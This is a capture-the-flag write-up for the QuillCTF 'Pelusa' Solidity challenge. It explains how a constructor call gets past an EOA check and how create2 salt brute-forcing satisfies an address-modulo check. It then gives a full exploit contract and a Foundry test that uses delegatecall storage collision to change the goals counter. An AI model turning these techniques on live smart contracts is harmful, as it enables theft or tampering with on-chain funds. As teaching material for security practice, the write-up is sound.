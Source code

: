 ```yaml
---
title: QuillCTF-8.Pelusa
date: 2024-01-22 17:01:26
tags:
categories: 
    - QuillCTF
---
```

```
“_**You just opened your eyes and are in Mexico 1986; help Diego set the score from 1 to 2 goals for a win, and do whatever is necessary!”**_
```

## Objective

- Score from 1 to 2 goals for a win.

## Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

interface IGame {
    function getBallPossesion() external view returns (address);
}

// "el baile de la gambeta"
// https://www.youtube.com/watch?v=qzxn85zX2aE
// @author https://twitter.com/eugenioclrc
contract Pelusa {
    address private immutable owner;
    address internal player;
    uint256 public goals = 1;

    constructor() {
        owner = address(uint160(uint256(keccak256(abi.encodePacked(msg.sender, blockhash(block.number))))));
    }

    function passTheBall() external {
        require(msg.sender.code.length == 0, "Only EOA players");
        require(uint256(uint160(msg.sender)) % 100 == 10, "not allowed");

        player = msg.sender;
    }

    function isGoal() public view returns (bool) {
        // expect ball in owners posession
        return IGame(player).getBallPossesion() == owner;
    }

    function shoot() external {
        require(isGoal(), "missed");
                /// @dev use "the hand of god" trick
        (bool success, bytes memory data) = player.delegatecall(abi.encodeWithSignature("handOfGod()"));
        require(success, "missed");
        require(uint256(bytes32(data)) == 22_06_1986);
    }
}
```


## Observation

Our Goal is to make goals to 2 .

To make the goals to 2 , first , we need to call delegatecall() in shoot(). To successful call shoot() function ,we need to pass the require which means we need to let the getBallPossesion() return owner.

The first vuln is the use of `msg.sender.code.length == 0` to Vertify wether `msg.sender` is an EOA,but this check can be byoassed, given that a contract's codesize is set only at the end of it's constructor's execution. This means we can  bypass this check by invoking the `passTheBall()` function from within the exploit contract.

The second vuln is in the same function . `require(uint256(uint160(msg.sender)) % 100 == 10, "not allowed");`requiring for the sender's address to have a specified result when interpreted as an integer and it's modulo 100 is calculated. In combination with the vulnerability found above, it becomes obvious that an attacker must come up with a way to deploy a 
contract whose address passes this check: I've accomplished this by brute-forcing the salt given to `create2` when determinstically deploying a contract.

## Attack

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

import "./ppp.sol";

contract PelusaExploit is IGame {
    Pelusa pelusa;
    uint256 slot1;

    address pelusaOwner;

    event Deployed(address);

    constructor(Pelusa _pelusa, address _pelusaDeployer, bytes32 _pelusaBlockHash) {
        emit Deployed(address(this));
        pelusa = _pelusa;
        pelusa.passTheBall();
        pelusaOwner = address(uint160(uint256(keccak256(abi.encodePacked(_pelusaDeployer, _pelusaBlockHash)))));
    }

    function getBallPossesion() external view override returns (address) {
        return pelusaOwner;
    }

    function handOfGod() external returns (bytes32) {
        slot1++;
        return (bytes32(uint256(22_06_1986)));
    }
}
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

import "forge-std/Test.sol";
import "../src/7-ppp/PelusaExploit.sol";

contract PelusaTest is Test {
    Pelusa pel;
    PelusaExploit expl;

    address pelusaDeployer = makeAddr("pelusaDeployer");
    address attacker = makeAddr("attacker");

    function testFindCreate2Salt() external {
        vm.prank(pelusaDeployer);
        pel = new Pelusa();

        vm.startPrank(attacker);
        for (uint256 i; i < 1000; ++i) {
            vm.expectRevert();
            emit log_uint(i);
            expl = new PelusaExploit{
                salt: bytes32(uint256(i))
            }(pel, pelusaDeployer, blockhash(block.number));
        }
    }

    function testExploit() external {
        vm.prank(pelusaDeployer);
        pel = new Pelusa();

        vm.startPrank(attacker);
        /* In a real world scenario, an attacker is able to retrieve the deployer's address and the block.number at which the Pelusa
        contract was deployed, effectively reconstructing the `owner` address and passing the `isGoal()` check.
        */
        expl = new PelusaExploit{
            salt: bytes32(uint256(39)) // salt value 39 was found by brute forcing the create2 address pre computation in the above test
        }(pel, pelusaDeployer, blockhash(block.number));
        pel.shoot();
        vm.stopPrank();

        assertEq(pel.goals(), 2);
    }
}

```